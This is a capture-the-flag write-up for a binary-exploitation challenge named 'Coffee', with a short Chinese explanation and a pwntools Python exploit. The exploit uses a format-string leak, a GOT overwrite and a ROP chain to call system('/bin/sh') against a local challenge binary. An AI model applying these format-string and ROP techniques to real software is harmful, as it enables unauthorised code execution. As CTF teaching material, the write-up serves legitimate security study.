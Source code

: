 

### Coffee

```
// file
./coffee: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f06390409bc7bfd78cb08726dd89b4cd04d38f1a, for GNU/Linux 3.2.0, not stripped

// checksec
[*] '/home/u1f383/tsgctf/coffee/coffee'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```



透過 fmt leak libc 以及 overwrite puts@GOT 成 pop gadget，而後執行 ROP 來做 `scanf("%159s", printf_got-0x10)`，寫入 `"/bin/sh"` 字串 + overwrite printf@got 成 `system()` + 寫 `x` 成 0xc0ffee，最後執行 `printf(printf_got-0x10)` 即是執行 `system("/bin/sh")`。exploit：

```python
#!/usr/bin/python3

from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'

r = process('./coffee')

pop_rsi_r15_ret = 0x401291 # pop rsi ; pop r15 ; ret (4199057)
pop_rbp_r12_r13_r14_r15_ret = 0x040128b # pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
pop_rbp_ret = 0x40117d # pop rbp ; ret
puts_plt = 0x401070 # (4198512)
puts_got = 0x404018 # (4210712)
printf_got = 0x404028
main_scanf = 0x4011be
x_addr = 0x404048

# 160 ==> 20 gadget
fmt = "%29$pAAA" # 5 + 3
fmt += f"%{ (pop_rbp_r12_r13_r14_r15_ret & 0xffff) - 17 }c%9$hnAAAAA" # 11 + 5
fmt = fmt.encode() + p64(puts_got)
### rop ###
fmt += p64(pop_rbp_ret) + p64(printf_got - 0x10 + 0xb0)
fmt += p64(pop_rsi_r15_ret) + p64(printf_got - 0x10) + p64(0)
fmt += p64(main_scanf)

r.sendline(fmt)
libc = int(r.recvuntil('AAA', drop=True), 16) - 0x270b3
_system = libc + 0x55410
info(f"libc: {hex(libc)}")

payload = b'/bin/sh\x00' + b'A'*8 # 0x404018
payload += p64(_system) # 0x404028
payload += b'A'*0x18 + p64(0xc0ffee)

r.sendline(payload)
r.interactive()
```
